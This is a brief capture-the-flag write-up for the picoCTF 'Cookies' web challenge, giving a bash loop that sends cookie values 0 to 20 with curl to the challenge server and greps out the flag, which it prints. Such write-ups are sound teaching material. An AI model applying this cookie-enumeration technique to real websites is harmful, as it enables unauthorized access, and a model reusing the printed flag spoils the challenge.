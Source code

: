 ## Objetivo
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:54219/](http://mercury.picoctf.net:54219/)
## Datos de acceso al nivel
```
Link: http://mercury.picoctf.net:54219/
```

## Solución

```bash
# Logged in!

jpflores-picoctf@webshell:~$ for i in {0..20}; do curl -s http://mercury.picoctf.net:54219/check -H "Cookie: name=$i"; done | grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}</code></p>
jpflores-picoctf@webshell:~$ 

``` 